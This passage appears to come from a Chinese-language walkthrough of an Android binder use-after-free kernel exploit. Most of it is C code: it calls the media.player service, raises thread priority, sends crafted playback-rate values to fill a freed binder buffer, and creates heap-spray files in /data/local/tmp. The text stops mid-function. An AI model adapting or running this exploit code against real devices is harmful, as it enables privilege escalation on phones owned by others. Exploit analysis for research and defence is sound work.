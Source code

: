 ```c
```

启动子线程，pthread_cond_wait使它处于等待状态,直到主线程唤醒它

接着

```c
nice(-20);
```

设主线程优先级最高

```c
MediaPlayerBase* mediaPlayerBase = new MediaPlayerBase();
	mediaPlayer = mediaPlayerBase->creatMediaPlayer();
```

相当于 open("/dev/binder");

```c
init_reply_data();
init_test_dir();
```

```c
status_t init_reply_data()
{
	setDataSource();
	AudioPlaybackRate rate;
	rate.mSpeed = 1;
	rate.mPitch = 1;
	rate.mStretchMode = (AudioTimestretchStretchMode)0;
	rate.mFallbackMode = (AudioTimestretchFallbackMode)0x80000e71;
        return mediaPlayer->setPlaybackSettings(rate);

}

sp<IMediaPlayerService> getMediaPlayer()
{
	sp<IServiceManager> sm = defaultServiceManager();
	String16 name = String16("media.player"); 
	sp<IBinder> service = sm->checkService(name);
	sp<IMediaPlayerService> mediaService = interface_cast<IMediaPlayerService>(service);

	return mediaService;

}

```

初始化bc_reply要传的数据就是1，1，0，0x80000e71，在bc_reply时调用bc_transaction,对于uaf的binder_buffer->data copy_from_user,关于为什么传这个些数据，涉及到kasm攻击方法，等会再讲

```c
void init_fd_heap_spray()
{
	const char * path = "/data/local/tmp/test_dir/abcd.txt";
        fd_heap_spray = open(path, O_WRONLY);
	if (fd_heap_spray < 0)
	{
		printf("[-] fd_heap_spray failed\n");
	}
}

void create_test_dir()
{
    	system("touch /data/local/tmp/test_dir/fffdfffdfffdfffd");
	system("touch /data/local/tmp/test_dir/abcd.txt");
	fd_guard_heap = open("/data/local/tmp/test_dir/fffdfffdfffdfffd", O_WRONLY); 
```